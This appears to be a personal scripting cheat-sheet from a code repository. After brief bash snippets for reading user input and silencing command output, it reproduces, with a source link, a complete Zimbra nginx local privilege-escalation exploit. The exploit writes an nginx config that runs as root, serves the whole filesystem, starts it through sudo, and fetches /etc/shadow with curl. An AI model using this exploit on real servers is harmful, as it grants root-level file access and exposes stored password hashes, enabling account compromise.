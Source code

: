# S c r i p t i n g

## Waiting for user input
````powershell
read -p "Write the path: " variableName
read -p "Press [ENTER] when finished..."
````

## Redirecting output
Code
````powershell
sudo apt update > /dev/null 2>&1 

````

## zimbra-nginx-local-root-exploit
- [Source](https://darrenmartyn.ie/2021/10/25/zimbra-nginx-local-root-exploit/)
````
#!/bin/bash
echo "[+] making config"
cat <<EOF >/tmp/nginx.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
server {
    listen 1337;
    root /;
    autoindex on;
}
}
EOF
echo "[+] Launching..."
sudo /opt/zimbra/common/sbin/nginx -c /tmp/nginx.conf
echo "[+] Reading /etc/shadow..."
curl http://localhost:1337/etc/shadow
````
